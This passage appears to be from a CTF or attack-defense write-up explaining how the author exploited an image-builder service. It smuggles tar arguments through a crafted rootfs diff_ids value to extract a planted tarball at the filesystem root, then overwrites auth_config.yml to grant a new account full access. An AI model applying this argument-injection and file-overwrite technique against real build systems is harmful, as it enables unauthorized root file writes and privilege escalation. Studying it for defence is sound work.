 ```
	--exclude PATTERN	Glob pattern to exclude
	--overwrite		Replace existing files
	--strip-components NUM	NUM of leading components to strip
	--no-recursion		Don't descend in directories
	--numeric-owner		Use numeric user:group
	--no-same-permissions	Don't restore access permissions
```

After some thinking I've decided to put another crafted tarball in my image and extract it later. This way I would get arbitrary file write primitive. Let's add it to Dockerfile:

```Dockerfile
FROM alpine:latest

ADD vzlomik.tar /vzlomik.tar
```

Therefore I've changed the injection. I wanted to unpack my tarball in the filesystem root, so `.rootfs.diff_ids` became:

```json
"rootfs": {
  "type": "layers",
  "diff_ids": [
    "sha256:75654b8eeebd3beae97271a102f57cdeb794cc91e442648544963a7e951e9558",
    "sha256:7ed7aa814b865edc71b766dcf2d45f0a47077c5752984b9f3a7beb1bbbab097e",
    "sha256:.overlay/vzlomik.tar\\x20-C\\x20/\\x20-xf\\x20.overlay/vzlomik"
  ]
}
```

And the executed `tar` command:

```sh
tar -C .overlay -xf .overlay/vzlomik.tar -C / -xf .overlay/vzlomik.tar --overwrite
```

The file `vzlomik.tar` is already presented in `.overlay` from the previous image layer, so this command will change directory to `/` and extract `vzlomik.tar`.

Since the image-builder was running from `root` user, we could easily get RCE just by replacing `/usr/bin/skopeo` with our custom binary or shell script, but [renbou](https://t.me/renbou) suggested another clever way: replace `auth_config.yml`. It was possible because volumes for all containers were mounted with readwrite access. We registered new `service_user` account and grant it full access:

```yaml
  - match: {account: "service-user"}
    actions: ["*"]
    comment: "Admin has full access to everything."

  - match: {account: "service_user"}
    actions: ["*"]
    comment: "Admin has full access to everything."
```

All that's left to do is to use this account and download all checker images.
